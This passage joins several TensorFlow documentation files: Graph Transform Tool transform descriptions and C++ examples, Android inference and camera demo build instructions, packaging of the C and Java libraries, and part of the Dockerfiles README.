images from the training set. You can then pass the whole concatenated log from
all of the runs into the transform, and it will pick ranges based on the
aggregate of the values found for each RequantizationRange op.

To ensure that outliers don't increase the range too much, and so decrease the
accuracy by putting too many bits into rare extreme values, the `min_percentile`
and `max_percentile` arguments control how the overall min and max are chosen.
At their default values of 5, this means that the lowest 5% of the minimum
values will be discarded, taking the minimum of the remainder, and the
equivalent for the maximum.

### fuse_convolutions

Args: None \
Prerequisites: None

For graphs that use ResizeBilinear or MirrorPad ops before convolutions (e.g. to
scale up in the later stages of an image style transfer model), it can improve
memory usage and latency to combine the spatial transformations with the
convolution's im2col patch generation. This transform looks out for that
particular pattern of ops and replaces them with a fused version that combines
the resizing and padding with the convolution.

### insert_logging

Args:

*   op: Insert a Print after every occurrence of this op type. Can be repeated
    to cover multiple types. If not present, all op types will be instrumented.
*   prefix: Insert a Print after every node whose name starts with this value.
    Can be repeated to cover multiple nodes. If not present, all node names will
    be matched.
*   show_op: If true, the op type will be prepended to all log messages.
*   show_name: If true, the node's name will be prepended to all log messages.
*   message: Arbitrary text to log before the values.
*   first_n: How many times to print before suppressing. Defaults to -1, which
    means never stop.
*   summarize: How long numerical results can be before they're truncated.
    Defaults to 1024.

The Print operator writes strings to stderr when it's run inside a graph, and
prints out the numerical results of the node that it's reading from. This can be
very useful when you're debugging and want to follow particular internal values
while a graph is running. This transform allows you to insert those ops at
particular points in the graph, and customize the message that's displayed. It's
also used in conjunction with the
[freeze_requantization_ranges](#freeze_requantization_ranges) transform to
output information that it needs.

### merge_duplicate_nodes

Args: None \
Prerequisites: None

If there are Const nodes with the same types and contents, or nodes with the
same inputs and attributes, this transform will merge them together. It can be
useful when you want to cut down the number of nodes in a graph that has a lot
of redundancy (e.g. this transform is always run as part of
[quantize_nodes](#quantize_nodes) since the processing there can introduce
duplicates of constants that are used in the quantize/dequantize process).

### obfuscate_names

Args: None \
Prerequisites: None

Replaces all nodes' names with short generated ids, other than the inputs and
outputs. This also updates all references within the graph so that the structure
is preserved. This can be useful if you want to shrink the file size, or if you
want to make it harder to understand the architecture of your model before
releasing it.

### quantize_nodes

Args:

*   input_min: The lowest float value for any quantized placeholder inputs.
*   input_max: The highest float value for any quantized placeholder inputs. If
    both input_min and input_max are set, then any float placeholders in the
    graph will be replaced with quantized versions, and consts will be created
    to pass the range to subsequent operations.
*   fallback_min: The lowest float value to use for requantizing activation
    layers.
*   fallback_max: The highest float value to use for requantizing activation
    layers. If both fallback_min and fallback_max are set, then instead of using
    RequantizationRange ops to figure out the useful range dynamically when
    converting the 32-bit output of ops like QuantizedConv2D and
    QuantizedBiasAdd, hardwired consts with these values will be used instead.
    This can help performance, if you know the range of your activation layers
    ahead of time.

Prerequisites: [quantize_weights](#quantize_weights)

Replaces any calculation nodes with their eight-bit equivalents (if available),
and adds in conversion layers to allow remaining float operations to
interoperate. This is one of the most complex transforms, and involves multiple
passes and a lot of rewriting. It's also still an active area of research, so
results may vary depending on the platform and operations you're using in your
model. You should run quantize_weights first to ensure your Const ops are in
eight-bit form.

### quantize_weights

Args:

*   minimum_size: Tensors with fewer elements than this won't be quantized
(defaults to 1024)

Prerequisites: None

Converts any large (more than minimum_size) float Const op into an eight-bit
equivalent, followed by a float conversion op so that the result is usable by
subsequent nodes. This is mostly useful for [shrinking file
sizes](#shrinking-file-size), but also helps with the more advanced
[quantize_nodes](#quantize_nodes) transform. Even though there are no
prerequisites, it is advisable to run [fold_batch_norms](#fold_batch_norms) or
[fold_old_batch_norms](#fold_old_batch_norms), because rounding variances down
to zero may cause significant loss of precision.

### remove_attribute

Args:

*   attribute_name: Name of the attribute you want to remove.
*   op_name: Optional name of a single op to restrict the removal to.

Prerequisites: None

Deletes the given attribute from either all nodes, or just the one specified in
`op_name`. This can be a dangerous transform since it's easy to leave your graph
in an invalid state if you remove a required attribute. It can be useful in
special circumstances though.

### remove_device

Args: None \
Prerequisites: None

All ops can have a hardware device specified. This can be a problem when you're
loading a graph on a different system than the model was trained on, since some
specified devices may not be available. In order to work with graphs like these,
you can run this transform to wipe the slate clean and delete the device
specifier from all ops.

### remove_control_dependencies

Args: None \
Prerequisites: None

Removes all control dependencies from the graph.

### remove_nodes

Args:

*   op: The name of the op you want to remove. Can be repeated to remove
    multiple ops.

Prerequisites: None

This is a potentially dangerous transform that looks for single-input,
single-output ops with the given names, removes them from the graph, and rewires
all inputs that use to pull from them to pull from the preceding node instead.
This is most useful for getting rid of ops like `CheckNumerics` that are useful
during training but just complicate the graph and increase latency during
inference. It's dangerous because it's possible that removing some ops may
change the output of your graph, so make sure you check the overall accuracy
after using this.

### rename_attribute

Args:

*   old_attribute_name: Current name of the attribute you want to rename.
*   new_attribute_name: Name that you want the attribute to have now.
*   op_name: If this is set, only change attributes for a given op type,
    otherwise apply to all nodes with attribute names that match.

Prerequisites: None

Changes the name of the given attribute. This is often useful for upgrading
graph files as op definitions change over versions, since the renaming is often
enough to deal with minor changes.

### rename_op

Args:

*   old_op_name: Current name of the operation.
*   new_op_name: Name to change to.

Prerequisites: None

Finds all ops with the given name, and changes them to the new one. This can be
useful for version upgrading if the changes between ops are minor apart from the
name.

### round_weights

Args:

*   num_steps: How many unique values to use in each buffer.

Prerequisites: None

Rounds all float values in large Const ops (more than 15 elements) to the given
number of steps. The unique values are chosen per buffer by linearly allocating
between the largest and smallest values present. This is useful when you'll be
deploying on mobile, and you want a model that will compress effectively. See
[shrinking file size](#shrinking-file-size) for more details. Even though there
are no prerequisites, it is advisable to run
[fold_batch_norms](#fold_batch_norms) or
[fold_old_batch_norms](#fold_old_batch_norms), because rounding variances down
to zero may cause significant loss of precision.

### sparsify_gather

Args: None \
Prerequisites: None

Transform 'Gather' op to a sparsified version where 'params' input of 'Gather'
is replaced from a dense 'Const' to a 'HashTable'. 'Gather' op itself is
replaced by a hashtable lookup. This is mostly useful for reducing sparse
TF.learn linear model memory footprint.

### set_device

Args:

*   device: What device to assign to ops.
*   if_default: If this is true, only assign to ops with empty existing devices.

Updates nodes to use the specified device. A device is a way to tell the code
that executes the graph which piece of hardware it should run particular nodes
on. The right assignment to use may change between training and deployment, so
this transform (and [remove_device](#remove_device)) provide a way of updating
the placement. If the `is_default` parameter is set, then only ops that don't
have a device assigned already will be updated. This is mostly useful for
preprocessing of graphs for other stages that expect all ops to have an explicit
device assigned.

### sort_by_execution_order

Args: None \
Prerequisites: None

Arranges the nodes in the GraphDef in topological order, so that the inputs of
any given node are always earlier than the node itself. This is especially
useful when you're targeting a minimal inference engine, since you can just
execute the nodes in the given order knowing that the inputs will be computed
before they're needed.

### strip_unused_nodes

Args:

*   type: Default type for any new Placeholder nodes generated, for example
    int32, float, quint8.
*   shape: Default shape for any new Placeholder nodes generated, as
    comma-separated dimensions. For example shape="1,299,299,3". The double
    quotes are important, since otherwise the commas will be taken as argument
    separators.
*   name: Identifier for the placeholder arguments.
*   type_for_name: What type to use for the previously-given name.
*   shape_for_name: What shape to use for the previously-given name.

Prerequisites: None

Removes all nodes not used in calculated the layers given in `--outputs`, fed by
`--inputs`. This is often useful for removing training-only nodes like
save-and-restore or summary ops. It's also handy for solving the [missing kernel
errors problem](#fixing-missing-kernel-errors-on-mobile) when there are decode
or other ops you don't need in the inference path.

The biggest complication is that it sometimes has to create new Placeholder ops,
so there are options to control their characteristics. This will happen if you
bypass a DecodeJpeg op by specifying an input layer deeper in the network, for
example, so you can pass in a raw image array instead of an encoded string as an
input. The decode op will be removed, together with the Placeholder that fed it,
but a new Placeholder is needed for the input layer you specify. The type and
shape arguments let you control the attributes of any new Placeholders that are
created. Plain `type` and `shape` set global defaults, but if you have different
inputs with varying characteristics, you'll need to pass in a list of arguments
where the preceding name specifies what layer each applies to. For example, if
you had two inputs in1 and in2, you could call `strip_unused_nodes(name=in1,
type_for_name=int32, shape_for_name="2,3", name=in2, type_for_name=float,
shape_for_name="1,10,10,3")`.

## Writing Your Own Transforms

The Graph Transform Tool is designed to make it as easy as possible to create
your own optimization, modification, and pre-processing transforms. At their
heart, all of the transforms take in a valid GraphDef, make some changes, and
output a new GraphDef. Each GraphDef is just a list of NodeDefs, each defining
one node in the graph and its connections. You can find more information on the
format at [this guide to TensorFlow model
files](https://www.tensorflow.org/versions/master/extend/tool_developers/index.html),
but for a simple example take a look at
[tensorflow/tools/graph_transforms/rename_op.cc](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/tools/graph_transforms/rename_op.cc),
which implements the [rename_op](#rename_op) transform:

```C++
Status RenameOp(const GraphDef& input_graph_def,
                const TransformFuncContext& context,
                GraphDef* output_graph_def) {
  if (!context.params.count("old_op_name") ||
      (context.params.at("old_op_name").size() != 1) ||
      !context.params.count("new_op_name") ||
      (context.params.at("new_op_name").size() != 1)) {
    return errors::InvalidArgument(
        "rename_op expects exactly one 'old_op_name' and 'new_op_name' "
        "argument, e.g. rename_op(old_op_name=Mul, new_op_name=Multiply)");
  }

  const string old_op_name = context.params.at("old_op_name")[0];
  const string new_op_name = context.params.at("new_op_name")[0];
  output_graph_def->Clear();
  for (const NodeDef& node : input_graph_def.node()) {
    NodeDef* new_node = output_graph_def->mutable_node()->Add();
    new_node->CopyFrom(node);
    if (node.op() == old_op_name) {
      new_node->set_op(new_op_name);
    }
  }

  return Status::OK();
}

REGISTER_GRAPH_TRANSFORM("rename_op", RenameOp);
```

The heart of this transform is the loop through the input_graph_def's nodes. We
go through each op, add a new one to the output, copy the original's contents,
and then change the op over if it matches the parameters. There's a standard set
of parameters for every transform, so they all take in a GraphDef and context,
and write out into a new GraphDef. The registration macro at the bottom lets the
tool know what function to call when it finds the `rename_op` string in a
transforms list.

### Transform Functions

The standard signature that all transform functions have is defined as
`TransformFunc`, which takes in an input GraphDef, a `TransformFuncContext`
containing environment information, writes to an output GraphDef, and returns a
Status indicating whether the transform succeeded.

The `TransformFuncContext` has a list of the inputs and outputs for the graph,
and the [parameter arguments](#parameters) that were passed into the transform
by the user.

If you write a function that matches this signature, and [register
it](#registration), the graph transform tool will take care of calling it.

### Pattern Syntax

The `rename_op` example only needs to look at a single node at a time, but one
of the most common needs is to modify small sub-graphs within a model. To make
this easy, the Graph Transform Tool provides the `OpTypePattern` syntax. This is
a simple and compact way to specify patterns of nodes that you want to look for.
The format is:

```
OP_TYPE_PATTERN ::= "{" OP "," INPUTS "}"
INPUTS ::= OP_TYPE_PATTERN
```

The `OP` field can either contain a single "*", which means match any op type,
one op type (for example "Const"), or a set of op types separated by `|` symbols
(for example "Conv2D|MatMul|BiasAdd"). General regex patterns are not supported,
just these special cases.

You can think of these patterns as very limited regular expressions designed to
pick out sub-trees in graphs. They are deliberately very constrained to the kind
of things we commonly find ourselves needing to do, to make creating and
debugging as straightforward as possible.

For example, if you want all Conv2D nodes that have a constant as their second
input, you would set up a pattern like this, using C++ initializer lists to
populate the structure:

```C++
OpTypePattern conv_pattern({"Conv2D", {{"*"}, {"Const"}}});
```

It can be easier to visualize these initializers using indentation to show the
tree structure more clearly:

```C++
OpTypePattern conv_pattern({
  "Conv2D",
  {
    {"*"},
    {"Const"}
  }
});
```

In plain English this is saying, a Conv2D op with two inputs, the first of which
is any op type, and the second is a Const op.

Here's a much more complex example, from the [quantize_nodes](#quantize_nodes)
transform:

```C++
{"QuantizeV2",
  {
    {"Dequantize"},
    {"Min",
      {
        {"Reshape",
          {
            {"Dequantize"},
            {"Const"},
          }
        },
        {"Const"},
      }
    },
    {"Max",
      {
        {"Reshape",
          {
            {"Dequantize"},
            {"Const"},
          }
        },
        {"Const"},
      }
    },
  }
}
```

This is looking for QuantizeV2 nodes, with three inputs, the first of which is a
Dequantize, the second is a Min that ultimately pulls from a Dequantize, and the
third is a Max which does the same. Assuming we know the Dequantize ops are
pulling from the same eight-bit buffer, the end result of this sub-graph is a
no-op, since it's just turning the eight-bit buffer into float, and then
immediately converting it back to eight-bits, so if we look for this pattern and
remove it we can optimize the graph without changing the result.

### ReplaceMatchingOpTypes

It's very common to want to find all occurrences of a particular sub-graph in a
model, and replace them all with a different sub-graph that keeps the same local
input and output connections. For example with
[fuse_convolutions](#fuse_convolutions), we needed to find all Conv2D ops that
read their inputs from BilinearResizes, and replace those combinations with a
single FusedResizeAndPadConv2D op, but without affecting other ops.

To make that sort of transformation easy, we created the
`ReplaceMatchingOpTypes` helper. This takes in a graph, an `OpTypePattern`
defining the sub-graph to look for, and a callback function to run for every
occurrence it finds. The job of this callback function is to look at the
`NodeMatch` that contains information about the current sub-graph, and return a
new sub-graph in the new_nodes list that will be used to replace the old
sub-graph.

You can see how it's used in practice in the
[fuse_convolutions](#fuse_convolutions) code:

```C++
TF_RETURN_IF_ERROR(ReplaceMatchingOpTypes(
    input_graph_def,  // clang-format off
    {"Conv2D",
        {
            {"ResizeBilinear"},
            {"*"}
        }
    },  // clang-format on
    [](const NodeMatch& match, const std::set<string>& input_nodes,
       const std::set<string>& output_nodes,
       std::vector<NodeDef>* new_nodes) {
      // Find all the nodes we expect in the subgraph.
      const NodeDef& conv_node = match.node;
      const NodeDef& resize_node = match.inputs[0].node;
      const NodeDef& weights_node = match.inputs[1].node;

      // We'll be reusing the old weights.
      new_nodes->push_back(weights_node);

      // Create a 'no-op' mirror padding node that has no effect.
      NodeDef pad_dims_node;
      pad_dims_node.set_op("Const");
      pad_dims_node.set_name(conv_node.name() + "_dummy_paddings");
      SetNodeAttr("dtype", DT_INT32, &pad_dims_node);
      SetNodeTensorAttr<int32>("value", {4, 2}, {0, 0, 0, 0, 0, 0, 0, 0},
                               &pad_dims_node);
      new_nodes->push_back(pad_dims_node);

      // Set up the new fused version of the convolution op.
      NodeDef fused_conv;
      fused_conv.set_op("FusedResizeAndPadConv2D");
      fused_conv.set_name(match.node.name());
      AddNodeInput(resize_node.input(0), &fused_conv);
      AddNodeInput(resize_node.input(1), &fused_conv);
      AddNodeInput(pad_dims_node.name(), &fused_conv);
      AddNodeInput(conv_node.input(1), &fused_conv);
      CopyNodeAttr(resize_node, "align_corners", "resize_align_corners",
                   &fused_conv);
      SetNodeAttr("mode", "REFLECT", &fused_conv);
      CopyNodeAttr(conv_node, "T", "T", &fused_conv);
      CopyNodeAttr(conv_node, "padding", "padding", &fused_conv);
      CopyNodeAttr(conv_node, "strides", "strides", &fused_conv);
      new_nodes->push_back(fused_conv);

      return Status::OK();
    },
    {}, &replaced_graph_def));
```

Here you can see we define the pattern to look for, and in the callback function
use information from each of the nodes in the old sub-graph to create a new
fused node. We also copy over the old weights input node so that isn't lost.

There are a few things to know about the `ReplaceMatchingOpTypes` function:

*   All of the nodes in any matching sub-graphs are removed from the new graph
    created by the function. If any of them are needed, it's the callback
    function's responsibility to add them back in. There's a `CopyOriginalMatch`
    convenience call that will copy over all of the original nodes if you decide
    you don't actually want to modify a particular sub-graph.

*   It is assumed that the same nodes will never appear in more than one matched
    sub-graph. This is to ensure that sub-trees are only replaced once, but it
    may mean that some sub-graphs aren't spotted if they overlap with earlier
    matches.

*   The calling framework tries to ensure that the graph remains sane, by
    looking at the new_nodes that are returned and making sure that no nodes
    which are needed as inputs by nodes outside the sub-graph are removed. These
    important nodes are listed in the `output_nodes` argument that's passed into
    each replacement function call. You can disable this checking by setting
    `allow_inconsistencies` to true in the options, but otherwise any
    replacements that break the graph constraints will be canceled. If you do
    allow inconsistencies, it's your transform's responsibility to fix them up
    before you return your final result. Functions like `RenameNodeInputs` can
    be useful if you are doing wholesale node renaming for example.

### Parameters

The arguments that are in parentheses after the transform name when the tool is
called are parsed and placed into the params member of the TransformFuncContext
that's given to each transform. For every named argument, there's a vector of
strings containing all the values that it was given, in the order they were
given. These are treated a bit like command-line parameters, and it's the
transform's responsibility to parse them into the data types it needs, and raise
errors by returning a bad Status if any of them are ill-formed.

As an example, here's a hypothetical transform call:

```
some_transform(foo=a, foo=b, bar=2, bob="1,2,3")
```

Here's what the std::map of strings looks like in the params member:

```
{{"foo", {"a", "b"}}, {"bar", {"2"}}, {"bob", {"1,2,3"}}}
```

The double quotes around the comma-separated argument to `bob` are important
because otherwise they'll be treated as separate arguments, and the parsing will
fail.

Here's an example of how [round_weights](#round_weights) reads its `num_steps`
parameter:

```C++
TF_RETURN_IF_ERROR(context.GetOneInt32Parameter("num_steps", 256, &num_steps));
```

If the conversion fails or the parameter occurs more than once the helper
function will raise a meaningful error through the status result of the
transform. If the parameter isn't specified at all then the default will be
used.

### Function Libraries

A newer feature of TensorFlow is the ability to create libraries of functions as
part of graphs. These are a bit like templates, which define macro operations in
terms of smaller components, which can then be instantiated with different input
and output connections inside the graph just like regular ops. Right now the
graph transform tool just copies these libraries between the input and output
graphs, but it's likely that more complex operations will be supported on them
in the future.

### Registering

The Graph Transform Tool associates names of transforms with the code to
implement them using the `REGISTER_GRAPH_TRANSFORM()` macro. This takes a string
and a function, and automatically registers the transform with the tool. You
will need to watch out for a few things though:

*   Because it's using global C++ objects in each file under the hood, the
    linker can sometimes strip them out and lose the registration. In Bazel you
    need to make sure you're linking any new transforms in as libraries, and use
    the `alwayslink` flag in your `cc_binary` call.

*   You should be able to create your own copy of the transform_graph tool by
    linking against the transform_graph_main_lib library in
    tensorflow/tools/graph_transforms/BUILD. This contains all the `main()`
    logic to parse command line arguments and call transforms.
# Deprecated android inference interface.

WARNING: This directory contains deprecated tf-mobile android inference
interface do not use this for anything new. Use TFLite.
# Android TensorFlow support

This directory defines components (a native `.so` library and a Java JAR)
geared towards supporting TensorFlow on Android. This includes:

- The [TensorFlow Java API](../../java/README.md)
- A `TensorFlowInferenceInterface` class that provides a smaller API
  surface suitable for inference and summarizing performance of model execution.

For example usage, see [TensorFlowImageClassifier.java](../../examples/android/src/org/tensorflow/demo/TensorFlowImageClassifier.java)
in the [TensorFlow Android Demo](../../examples/android).

For prebuilt libraries, see the
[nightly Android build artifacts](https://ci.tensorflow.org/view/Nightly/job/nightly-android/)
page for a recent build.

The TensorFlow Inference Interface is also available as a
[JCenter package](https://bintray.com/google/tensorflow/tensorflow)
(see the tensorflow-android directory) and can be included quite simply in your
android project with a couple of lines in the project's `build.gradle` file:

```
allprojects {
    repositories {
        jcenter()
    }
}

dependencies {
    compile 'org.tensorflow:tensorflow-android:+'
}
```

This will tell Gradle to use the
[latest version](https://bintray.com/google/tensorflow/tensorflow/_latestVersion)
of the TensorFlow AAR that has been released to
[JCenter](https://jcenter.bintray.com/org/tensorflow/tensorflow-android/).
You may replace the `+` with an explicit version label if you wish to
use a specific release of TensorFlow in your app.

To build the libraries yourself (if, for example, you want to support custom
TensorFlow operators), pick your preferred approach below:

### Bazel

First follow the Bazel setup instructions described in
[tensorflow/examples/android/README.md](../../examples/android/README.md)

Then, to build the native TF library:

```
bazel build -c opt //tensorflow/tools/android/inference_interface:libtensorflow_inference.so \
   --crosstool_top=//external:android/crosstool \
   --host_crosstool_top=@bazel_tools//tools/cpp:toolchain \
   --cxxopt=-std=c++11 \
   --cpu=armeabi-v7a
```

Replacing `armeabi-v7a` with your desired target architecture.

The library will be located at:

```
bazel-bin/tensorflow/tools/android/inference_interface/libtensorflow_inference.so
```

To build the Java counterpart:

```
bazel build //tensorflow/tools/android/inference_interface:android_tensorflow_inference_java
```

You will find the JAR file at:

```
bazel-bin/tensorflow/tools/android/inference_interface/libandroid_tensorflow_inference_java.jar
```

## AssetManagerFileSystem

This directory also contains a TensorFlow filesystem supporting the Android
asset manager. This may be useful when writing native (C++) code that is tightly
coupled with TensorFlow. For typical usage, the library above will be
sufficient.
# TensorFlow Android Camera Demo

DEPRECATED: These examples are deprecated.

This folder contains an example application utilizing TensorFlow for Android
devices.

## Description

The demos in this folder are designed to give straightforward samples of using
TensorFlow in mobile applications.

Inference is done using the [TensorFlow Android Inference
Interface](../../tools/android/inference_interface), which may be built
separately if you want a standalone library to drop into your existing
application. Object tracking and efficient YUV -> RGB conversion are handled by
`libtensorflow_demo.so`.

A device running Android 5.0 (API 21) or higher is required to run the demo due
to the use of the camera2 API, although the native libraries themselves can run
on API >= 14 devices.

## Current samples:

1. [TF Classify](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/test/src/org/tensorflow/demo/ClassifierActivity.java):
        Uses the [Google Inception](https://arxiv.org/abs/1409.4842)
        model to classify camera frames in real-time, displaying the top results
        in an overlay on the camera image.
2. [TF Detect](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/test/src/org/tensorflow/demo/DetectorActivity.java):
        Demonstrates an SSD-Mobilenet model trained using the
        [Tensorflow Object Detection API](https://github.com/tensorflow/models/tree/master/research/object_detection/)
        introduced in [Speed/accuracy trade-offs for modern convolutional object detectors](https://arxiv.org/abs/1611.10012) to
        localize and track objects (from 80 categories) in the camera preview
        in real-time.
3. [TF Stylize](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/test/src/org/tensorflow/demo/StylizeActivity.java):
        Uses a model based on [A Learned Representation For Artistic
        Style](https://arxiv.org/abs/1610.07629) to restyle the camera preview
        image to that of a number of different artists.
4.  [TF
    Speech](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/tools/android/test/src/org/tensorflow/demo/SpeechActivity.java):
    Runs a simple speech recognition model built by the [audio training
    tutorial](https://www.tensorflow.org/versions/master/tutorials/audio_recognition). Listens
    for a small set of words, and highlights them in the UI when they are
    recognized.


## Prebuilt Components:

The fastest path to trying the demo is to download the [prebuilt demo APK](https://storage.googleapis.com/download.tensorflow.org/deps/tflite/TfLiteCameraDemo.apk).

Also available are precompiled native libraries, and a jcenter package that you
may simply drop into your own applications. See
[tensorflow/tools/android/inference_interface/README.md](../../tools/android/inference_interface/README.md)
for more details.

## Running the Demo

Once the app is installed it can be started via the "TF Classify", "TF Detect",
"TF Stylize", and "TF Speech" icons, which have the orange TensorFlow logo as
their icon.

While running the activities, pressing the volume keys on your device will
toggle debug visualizations on/off, rendering additional info to the screen that
may be useful for development purposes.

## Building in Android Studio using the TensorFlow AAR from JCenter

The simplest way to compile the demo app yourself, and try out changes to the
project code is to use AndroidStudio. Simply set this `android` directory as the
project root.

Then edit the `build.gradle` file and change the value of `nativeBuildSystem` to
`'none'` so that the project is built in the simplest way possible:

```None
def nativeBuildSystem = 'none'
```

While this project includes full build integration for TensorFlow, this setting
disables it, and uses the TensorFlow Inference Interface package from JCenter.

Note: Currently, in this build mode, YUV -> RGB is done using a less efficient
Java implementation, and object tracking is not available in the "TF Detect"
activity.

For any project that does not include custom low level TensorFlow code, this is
likely sufficient.

For details on how to include this JCenter package in your own project see
[tensorflow/tools/android/inference_interface/README.md](../../tools/android/inference_interface/README.md)

## Building the Demo with TensorFlow from Source

Pick your preferred approach below. At the moment, we have full support for
Bazel, and partial support for gradle and Android Studio.

As a first step for all build types, clone the TensorFlow repo with:

```
git clone --recurse-submodules https://github.com/tensorflow/tensorflow.git
```

Note that `--recurse-submodules` is necessary to prevent some issues with
protobuf compilation.

### Bazel

NOTE: Bazel does not currently support building for Android on Windows. In the
meantime we suggest that Windows users download the
[prebuilt demo APK](https://storage.googleapis.com/download.tensorflow.org/deps/tflite/TfLiteCameraDemo.apk)
instead.

##### Install Bazel and Android Prerequisites

Bazel is the primary build system for TensorFlow. To build with Bazel, it and
the Android NDK and SDK must be installed on your system.

1.  Install the latest version of Bazel as per the instructions [on the Bazel
    website](https://bazel.build/versions/master/docs/install.html).
2.  The Android NDK is required to build the native (C/C++) TensorFlow code. The
    current recommended version is 14b, which may be found
    [here](https://developer.android.com/ndk/downloads/older_releases.html#ndk-14b-downloads).
3.  The Android SDK and build tools may be obtained
    [here](https://developer.android.com/tools/revisions/build-tools.html), or
    alternatively as part of [Android
    Studio](https://developer.android.com/studio/index.html). Build tools API >=
    23 is required to build the TF Android demo (though it will run on API >= 21
    devices).

##### Edit WORKSPACE

NOTE: As long as you have the SDK and NDK installed, the `./configure` script
will create these rules for you. Answer "Yes" when the script asks to
automatically configure the `./WORKSPACE`.

The Android entries in
[`<workspace_root>/WORKSPACE`](../../../WORKSPACE#L19-L36) must be uncommented
with the paths filled in appropriately depending on where you installed the NDK
and SDK. Otherwise an error such as: "The external label
'//external:android/sdk' is not bound to anything" will be reported.

Also edit the API levels for the SDK in WORKSPACE to the highest level you have
installed in your SDK. This must be >= 23 (this is completely independent of the
API level of the demo, which is defined in AndroidManifest.xml). The NDK API
level may remain at 14.

##### Install Model Files (optional)

The TensorFlow `GraphDef`s that contain the model definitions and weights are
not packaged in the repo because of their size. They are downloaded
automatically and packaged with the APK by Bazel via a new_http_archive defined
in `WORKSPACE` during the build process, and by Gradle via
download-models.gradle.

**Optional**: If you wish to place the models in your assets manually, remove
all of the `model_files` entries from the `assets` list in `tensorflow_demo`
found in the [`BUILD`](BUILD#L92) file. Then download and extract the archives
yourself to the `assets` directory in the source tree:

```bash
BASE_URL=https://storage.googleapis.com/download.tensorflow.org/models
for MODEL_ZIP in inception5h.zip ssd_mobilenet_v1_android_export.zip stylize_v1.zip
do
  curl -L ${BASE_URL}/${MODEL_ZIP} -o /tmp/${MODEL_ZIP}
  unzip /tmp/${MODEL_ZIP} -d tensorflow/tools/android/test/assets/
done
```

This will extract the models and their associated metadata files to the local
assets/ directory.

If you are using Gradle, make sure to remove download-models.gradle reference
from build.gradle after your manually download models; otherwise gradle might
download models again and overwrite your models.

##### Build

After editing your WORKSPACE file to update the SDK/NDK configuration, you may
build the APK. Run this from your workspace root:

```bash
bazel build --cxxopt='--std=c++11' -c opt //tensorflow/tools/android/test:tensorflow_demo
```

##### Install

Make sure that adb debugging is enabled on your Android 5.0 (API 21) or later
device, then after building use the following command from your workspace root
to install the APK:

```bash
adb install -r bazel-bin/tensorflow/tools/android/test/tensorflow_demo.apk
```

### Android Studio with Bazel

Android Studio may be used to build the demo in conjunction with Bazel. First,
make sure that you can build with Bazel following the above directions. Then,
look at [build.gradle](build.gradle) and make sure that the path to Bazel
matches that of your system.

At this point you can add the tensorflow/tools/android/test directory as a new
Android Studio project. Click through installing all the Gradle extensions it
requests, and you should be able to have Android Studio build the demo like any
other application (it will call out to Bazel to build the native code with the
NDK).

Bazel rules to package the TensorFlow APIs in languages other than Python into
archives.

## C library

The TensorFlow [C
API](https://www.tensorflow.org/code/tensorflow/c/c_api.h)
is typically a requirement of TensorFlow APIs in other languages such as
[Go](https://www.tensorflow.org/code/tensorflow/go)
and [Rust](https://github.com/tensorflow/rust).

The following commands:

```sh
bazel test --config opt //tensorflow/tools/lib_package:libtensorflow_test
bazel build --config opt //tensorflow/tools/lib_package:libtensorflow
```

test and produce the archive at
`bazel-bin/tensorflow/tools/lib_package/libtensorflow.tar.gz`, which can be
distributed and installed using something like:

```sh
tar -C /usr/local -xzf libtensorflow.tar.gz
```

## Java library

The TensorFlow [Java
API](https://www.tensorflow.org/code/tensorflow/java/README.md)
consists of a native library (`libtensorflow_jni.so`) and a Java archive (JAR).
The following commands:

```sh
bazel test --config opt //tensorflow/tools/lib_package:libtensorflow_test
bazel build --config opt \
  //tensorflow/tools/lib_package:libtensorflow_jni.tar.gz \
  //tensorflow/java:libtensorflow.jar \
  //tensorflow/java:libtensorflow-src.jar
```

test and produce the following:

-   The native library (`libtensorflow_jni.so`) packaged in an archive at:
    `bazel-bin/tensorflow/tools/lib_package/libtensorflow_jni.tar.gz`
-   The Java archive at:
    `bazel-bin/tensorflow/java/libtensorflow.jar`
-   The Java archive for Java sources at:
    `bazel-bin/tensorflow/java/libtensorflow-src.jar`

## Release

Scripts to build these archives for TensorFlow releases are in
[tensorflow/tools/ci_build/linux](https://www.tensorflow.org/code/tensorflow/tools/ci_build/linux)
and
[tensorflow/tools/ci_build/osx](https://www.tensorflow.org/code/tensorflow/tools/ci_build/osx)
# TensorFlow Dockerfiles

This directory houses TensorFlow's Dockerfiles and the infrastructure used to
create and deploy them to
[TensorFlow's Docker Hub](https://hub.docker.com/r/tensorflow/tensorflow).

**DO NOT EDIT THE DOCKERFILES/ DIRECTORY MANUALLY!** The files within are
maintained by `assembler.py`, which builds Dockerfiles from the files in
`partials/` and the rules in `spec.yml`. See
[the Contributing section](#contributing) for more information.

## Building

The Dockerfiles in the `dockerfiles` directory must have their build context set
to **the directory with this README.md** to copy in helper files. For example:

```bash
$ docker build -f ./dockerfiles/cpu.Dockerfile -t tf .
```

Each Dockerfile has its own set of available `--build-arg`s which are documented
in the Dockerfile itself.

## Running Locally Built Images

After building the image with the tag `tf` (for example), use `docker run` to
run the images.

Note for new Docker users: the `-v` and `-u` flags share directories and
permissions between the Docker container and your machine. Without `-v`, your
work will be wiped once the container quits, and without `-u`, files created by
the container will have the wrong file permissions on your host machine. Check
out the
[Docker run documentation](https://docs.docker.com/engine/reference/run/) for
more info.

```bash
# Volume mount (-v) is optional but highly recommended, especially for Jupyter.
# User permissions (-u) are required if you use (-v).

# CPU-based images
$ docker run -u $(id -u):$(id -g) -v $(pwd):/my-devel -it tf

# GPU-based images,
# 1) On Docker versions earlier than 19.03 (set up nvidia-docker2 first)
$ docker run --runtime=nvidia -u $(id -u):$(id -g) -v $(pwd):/my-devel -it tf

# 2) On Docker versions including and after 19.03 (with nvidia-container-toolkit)
$ docker run --gpus all -u $(id -u):$(id -g) -v $(pwd):/my-devel -it tf

# Images with Jupyter run on port 8888 and need a volume for your notebooks
# You can change $(PWD) to the full path to a directory if your notebooks
# live outside the current directory.
$ docker run --user $(id -u):$(id -g) -p 8888:8888 -v $(PWD):/tf/notebooks -it tf
```

These images do not come with the TensorFlow source code -- but the development
images have git included, so you can `git clone` it yourself.

## Contributing

To make changes to TensorFlow's Dockerfiles, you'll update `spec.yml` and the
`*.partial.Dockerfile` files in the `partials` directory, then run
`assembler.py` to re-generate the full Dockerfiles before creating a pull
request.

You can use the `Dockerfile` in this directory to build an editing environment
that has all of the Python dependencies you'll need:

```bash
# Build the tools-helper image so you can run the assembler
